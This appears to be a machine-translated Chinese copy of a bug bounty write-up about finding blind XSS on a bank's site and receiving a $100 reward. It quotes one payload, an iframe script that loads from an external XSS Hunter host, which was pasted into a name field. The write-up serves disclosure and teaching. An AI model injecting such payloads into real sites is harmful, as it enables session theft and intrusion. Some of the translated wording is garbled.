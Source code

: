 # 5 分钟内到达盲人 XSS——100 美元

> 原文：<https://infosecwriteups.com/get-blind-xss-within-5-minutes-100-9718bd056570?source=collection_archive---------0----------------------->

你好老板…

我是 Narayanan M，这是我的第一个 infosecwriteups 博客。今天我将解释我是如何在一个银行网站上找到盲人 XSS 的。

我在寻找一个昆虫奖励计划时发现了 redacted.com。如果提交的划界案有效，redacted.com 将按照《CVSS》发放奖金。所以我决定试一试。

# **什么是盲目的 XSS**
盲目的 XSS 是一种跨站点脚本(XSS)的风格，攻击者“盲目地”在网页上部署一系列恶意负载，这些负载可能会将它们保存到一个持久状态(如在数据库或日志文件中)。

![](img/fb3e8c41110be1d63fdb8d8dcdf5a8af.png)

**我们去打猎……**

我迅速复制了我的 xs shunter payload[**<iframe/srcdoc = "<script/src =//narayananm . XSS . ht></script>">**]并粘贴到 name 字段。几分钟后，我收到了以下邮件。

![](img/a8f15036a0807ad1f9d8f9237293de7b.png)

是啊！我们的有效载荷被执行…
提示:**总是检查所有输入字段**

然后我给他们发了一份像样的概念证明。第二天，我收到了他们的回复，提交了一个视频(POC)以便更好地理解。我再次制作了视频并发送给他们。几天后，我收到了他们的邮件(团队已经确认了修复。你能检查并更新我们吗？).

当我试图重现该问题时，我做不到！这意味着该漏洞已被成功修复。

几天后，我又收到了他们的电子邮件，是的！这是一个慷慨的时刻。

![](img/30410798ac6ffd14ef65589eb8adf6dc.png)

时间线:

10 月 6 日—漏洞报告
10 月 7 日—获得团队回应
10 月 17 日—漏洞修复
10 月 27 日—重新测试
11 月 3 日—奖金(100 美元)

**推特:**[**https://twitter.com/itsnarayananm**](https://twitter.com/itsnarayananm) **insta gram:**[**https://www.instagram.com/rootx_narayanan/**](https://www.instagram.com/rootx_narayanan/) **LinkedIn:**[**https://www.linkedin.com/in/narayanan-m-836197199/**](https://www.linkedin.com/in/narayanan-m-836197199/)

和平…

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！